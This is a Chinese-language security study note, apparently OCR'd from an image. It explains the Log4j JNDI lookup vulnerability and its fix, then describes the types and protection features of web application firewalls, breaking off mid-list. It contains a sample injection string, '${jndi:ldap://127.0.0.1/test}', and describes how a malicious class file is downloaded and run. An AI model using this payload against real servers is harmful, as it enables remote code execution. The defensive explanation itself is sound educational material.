 log4j 是 javaweb 的日志组件，用来记录 web 日志

去指定下载文件的 url 在搜索框或者搜索的 url 里面，加上 ${jndi:ldap://127.0.0.1/test} ，log4j 会对这串代码进行表达式解析，给 lookup 传递一个恶意的参数指定，参数指的是比如 ldap 不存在的资源 $ 是会被直接执行的。后面再去指定下载文件的 url，去下载我们的恶意文件。比如是 x.class 下载完成后，并且会执行代码块

修复：升级 Log4j 到最新版本，根据业务判断是否关闭 lookup

## ⬆️入侵检测&防御

### WAF产品如何来拦截攻击？

Waf 产品有三种

1. 云 Waf

   用户不需要在自己的网络中安装软件程序或部署硬件设备，就可以对网站实施安全防护，它的主要实现方式是**利用 DNS 技术**，通过移交域名解析权来实现安全防护。用户的请求首先发送到云端节点进行检测，如存在异常请求则进行拦截否则将请求转发至真实服务器

2. Web 防护软件

   安装在需要防护的服务器上，实现方式通常是 **Waf 监听端口或以 Web 容器扩展**方式进行请求检测和阻断

3. 硬件 Web 防火墙

   Waf **串行部署**在 Web 服务器前端，用于检测、阻断异常流量。常规硬件 Waf 的实现方式是通过**代理技术**代理来自外部的流量

原理都相同，通过部署在 Web 服务器前方串行接入来将 Web 流量牵引到 WAF 设备中进行清洗或者拦截，最终只把正常用户的请求转发给服务器

当前市场上 Waf 产品核心的防护机制是“规则”，每一个请求、会话，经过抓包，“开包检查”，每一项规则都会检查到，一旦检查不通过，就会被认为是非法访问，拒绝处理

### WAF有哪些防护方式？

- Web基础防护

  可防范常规的 web 应用攻击，如 SQL 注入攻击、XSS 跨站攻击等，可检测 webshell，检查 HTTP 上传通道中的网页木马，打开开关即实时生效

- CC 攻击防护

  可根据 IP、Cookie 或者 Referer 字段名设置灵活的限速策略，有效缓解 CC 攻击

- 精准访问防护

  对常见 HTTP 字段进行条件组合， 支持定制化防护策略如CSRF防护，通过自定义规则的配置，更精准的识别恶意伪造请求、保护网站敏感信息、提高防护精准性

- IP 黑白名单

  添加终拦截与始终放行的黑白名单 IP，增加防御准确性

- 地理位置访问控制

  添加地理位置访问控制规则，针对来源 IP 进行自定义访问控制

- 网页防篡改

  对网站的静态网页进行缓存配置，当用户访问时返回给用户缓存的正常页面，并随机检测网页是否被篡改

- 网站反爬虫

  动态分析网站业务模型，结合人机识别技术和数据风控手段，精准识别爬虫行为

- 误报屏蔽
